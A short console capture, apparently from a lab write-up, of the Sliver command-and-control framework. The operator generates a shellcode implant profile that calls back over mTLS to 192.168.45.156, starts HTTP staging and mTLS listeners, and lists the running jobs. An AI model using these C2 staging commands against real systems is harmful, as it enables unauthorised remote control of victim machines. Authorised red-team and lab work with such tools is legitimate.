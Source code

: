 sliver > profiles new --mtls 192.168.45.156:443 -G --format shellcode sliver

sliver > stage-listener --url http://192.168.45.156:80 --profile sliver

sliver > mtls -L 192.168.45.156 -l 443

sliver > jobs

 ID   Name   Protocol   Port   Stage Profile                          
==== ====== ========== ====== ========================================
 4    mtls   tcp        443                                           
 5    http   tcp        80     sliver (Sliver name: DEVELOPED_BULLET) 
